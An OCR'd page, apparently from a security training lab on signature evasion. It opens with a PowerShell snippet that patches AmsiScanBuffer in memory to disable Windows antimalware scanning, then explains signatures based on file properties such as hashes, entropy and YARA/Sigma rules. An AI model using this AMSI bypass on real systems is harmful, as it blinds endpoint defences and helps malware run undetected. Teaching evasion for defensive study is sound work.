> **public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint**

> **flNewProtect, out uint lpflOldProtect);**

> **‘@**

> **$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name ‘Kernel32’ -**

> **Namespace ‘Win32’ -PassThru**

> **$ASBD = “AmsiS”+”canBuffer”**

> **$handle = \[Win32.Kernel32]::GetModuleHandle(“amsi.dll”)**

> **\[IntPtr]$BufferAddress = \[Win32.Kernel32]::GetProcAddress($handle, $ASBD)**

> **\[UInt32]$Size = 0x5**

> **\[UInt32]$ProtectFlag = 0x40**

> **\[UInt32]$OldProtectFlag = 0**

> **\[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag,**

> **\[Ref]$OldProtectFlag)**

> **$buf = new-object byte\[] 6**

> **$buf\[0] = \[UInt32]0xB8**

> **$buf\[1] = \[UInt32]0x57**

> **$buf\[2] = \[UInt32]0x00**

> **$buf\[3] = \[Uint32]0x07**

> **$buf\[4] = \[Uint32]0x80**

> **$buf\[5] = \[Uint32]0xC3**

> **\[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6)**

**Static Property-Based Signature**

various detection analysts may consider different indicators rather than strings or static signatures in contribute to their hypothesis. Signatures can be attached to several file properties, including file hash, entropy, author, name, or other identifiable information to be used individually or in conjunction. These properties are often used in rule sets such **as YARA or Sigma.**

Some properties may be easily manipulated, while others can be more difficult, specifically when dealing with pre-compiled closed-source applications.

This task will discuss manipulating the **file hash and entropy** of both open-source and closed-source applications.

**Note**: several other properties such as PE headers or module properties can be used as indicators. Because these properties often require an agent or other measures to detect, we will not cover them in this room to keep the focus on signatures.

**File Hashes**

A **file hash** known as **a checksum**, is used to tag/identify a unique file. They are commonly used to verify authenticity or its known purpose (malicious or not). File hashes are generally arbitrary to modify and are changed due to any modification to the file.
